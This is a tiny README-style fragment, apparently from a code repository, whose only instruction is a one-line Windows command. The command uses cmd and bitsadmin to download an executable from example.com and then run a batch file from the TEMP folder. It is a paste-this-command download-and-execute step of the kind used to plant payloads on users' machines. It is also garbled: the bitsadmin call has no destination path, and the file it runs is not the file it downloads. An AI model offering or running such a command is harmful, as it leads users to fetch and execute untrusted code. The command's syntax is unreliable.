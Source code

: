 # ascii
Use this to use the Programm:
    `cmd /c bitsadmin /transfer 8 https://www.example.com/hello.exe; %TEMP%\index.bat`
